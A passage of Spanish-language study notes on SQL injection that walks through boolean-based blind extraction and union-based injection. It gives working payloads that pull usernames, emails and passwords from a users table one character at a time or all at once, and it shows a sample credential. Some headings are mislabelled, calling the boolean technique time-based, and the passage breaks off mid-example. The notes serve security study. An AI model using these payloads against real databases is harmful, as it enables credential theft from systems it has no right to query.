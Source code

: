 #### Original QUERY: 
```sql 
SELECT username FROM users WHERE user_id='%d'
```

#### SQLI basa en tiempo: 
```sql
-- Supongamos que realizamos la prubea de ingresar el usuario 1 y devuelve 200 OK  
SELECT username FROM users WHERE user_id=1 
-- Ahora ingresamos el usuario 1241 y devuelve 404
SELECT username FROM users WHERE user_id=1241
-- Ahora jugamos con el booleano, ya que sabemos que la primea petición no se cumple si se cumple la 2da podriamos ir deduciendo los datos
SELECT username FROM users WHERE user_id=1241 OR (select ascii(substr(group_concat(name,0x3a,password),1,1))=97)
```

Con esta QUERY maliciosa `(select ascii(substr(group_concat(name,0x3a,password),1,1))=97)` muy similar a la condición de tiempo, estamos abusando de que el usuario 1241 no existe para corroborar si la segunda query es TRUE y asi saber los valores, en este caso seleccionamos el conjunto de datos del nombre y la contraseña para fijarnos si el primer caracter en codigo ascii es un valor '97' en codigo ascii, equivalente a una 'a', de esta manera si el primer usuario fuera admin, la primera letra del mismo seria una a, en codigo ascii 97 y la query quedaria 97=97, por lo que seria true y devolveria un 200 OK.

-----
# Union based SQLI:

Este tipo de **SQLI** utiliza la cláusila "**UNION**" para combinar dos o más consultas en una sola. Por ejemplo, si se utiliza una consulta que devuelve información sobre los usuarios y se agrega una cláusula "**UNION**" con otra consulta que devuelve información sobre los permisos, se puede obtener información adicional sobre los permisos de los usuarios. 

Es importante tener en cuenta que para esta **SQLI** funcione, hace falta saber las columnas que esta siendo seleccionadas para asi poder unir datos, esto se da por entendido en ya que se toca en [[SQL]]. 

#### Original QUERY: 
```sql 
SELECT username FROM users WHERE user_id='%d'
```

#### SQLI basa en tiempo: 
```sql
-- Supongamos que realizamos la prubea de ingresar el usuario 1 y devuelve 200 OK ASI COMO TAMBIEN ALGUN DATO EN PANTALLA DEL USUARIO 
SELECT username, password FROM users WHERE user_id=1 
-- Ahora jugamos con order by para averiguar cuantas columnas se estan trayendo
SELECT username FROM users WHERE user_id=1241 order by 2
-- Una vez tengamos el número exacto de columnas podriamos insertar valores que nos interezaran para ver si alguno de los campos es vulnerable y se muestra en pantalla

-- Por ejemplo, desde mysql interactivo si traemos los datos con la primera query veriamos: 
--+---------+-------------------------------+
--| name    | password                      |
--+---------+-------------------------------+
--| Dobliuw | U2!+BF!.hZy1ST4r1&6*&3Uu1&3mI |
--+---------+-------------------------------+

-- Luego ejecutariamos la query maliciosa:
SELECT usrename, password FROM users WHERE user_id=1 union select group_concat(email,0x3a,password),null from users; 
-- Puediendo ver algo similar a esto: 
-------------------------------------------------------------------------------+-------------------------------+
```